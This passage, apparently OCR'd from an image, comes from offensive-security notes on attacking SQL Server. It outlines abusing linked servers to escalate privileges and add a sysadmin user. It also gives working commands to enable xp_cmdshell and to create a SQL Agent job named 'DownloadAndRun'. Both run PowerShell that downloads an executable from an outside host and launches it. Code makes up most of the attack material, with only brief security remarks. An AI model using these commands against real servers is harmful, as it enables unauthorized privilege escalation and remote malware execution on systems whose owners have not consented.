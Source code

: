 ```csharp
                command.ExecuteNonQuery();
                Console.WriteLine("Executed query on linked server");
            }
        }
    }
}
```

### Summary of the Steps

1. **Enumerate Linked Servers**: Use PowerUpSQL or custom C# code to list all the linked servers configured on the target SQL Server instance.

2. **Check Privileges**: Use PowerUpSQL to check if you can execute queries on the linked servers with a higher privilege level.

3. **Exploit the Linked Server**: If the linked server allows query execution, use PowerUpSQL or C# code to execute commands that can elevate your privileges, such as adding a new sysadmin user.



Other methods in SQL Server that can be used to execute external commands or interact with the operating system, similar to `OLE Automation Procedures`. Below are some alternative methods:

### 1. **`xp_cmdshell`**

- **Description**: `xp_cmdshell` is a built-in extended stored procedure that allows you to execute arbitrary commands directly in the operating system's command shell. It's powerful but poses significant security risks if not properly controlled.

- **Usage Example**:
  ```sql
  EXEC xp_cmdshell 'powershell -Command "Invoke-WebRequest -Uri http://example.com/file.exe -OutFile C:\Tools\file.exe; Start-Process C:\Tools\file.exe"';
  ```

- **Enabling `xp_cmdshell`**:
  ```sql
  EXEC sp_configure 'show advanced options', 1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell', 1;
  RECONFIGURE;
  ```

- **Security Considerations**: Like `OLE Automation Procedures`, `xp_cmdshell` can be dangerous if misused. It’s often disabled by default in production environments.

### 2. **SQL Server Agent Jobs**

- **Description**: SQL Server Agent can be used to schedule and execute jobs, including those that run operating system commands or PowerShell scripts. Jobs are typically used for scheduled tasks but can also be triggered manually.

- **Usage Example**:
  - Create a job that runs a PowerShell script to download and execute a file:
    ```sql
    USE msdb;
    EXEC sp_add_job @job_name = 'DownloadAndRun';
    EXEC sp_add_jobstep @job_name = 'DownloadAndRun', @step_name = 'Step1',
        @subsystem = 'PowerShell',
        @command = 'Invoke-WebRequest -Uri http://example.com/file.exe -OutFile C:\Tools\file.exe; Start-Process C:\Tools\file.exe',
        @on_success_action = 1;
    EXEC sp_add_jobserver @job_name = 'DownloadAndRun';
    EXEC sp_start_job @job_name = 'DownloadAndRun';
    ```
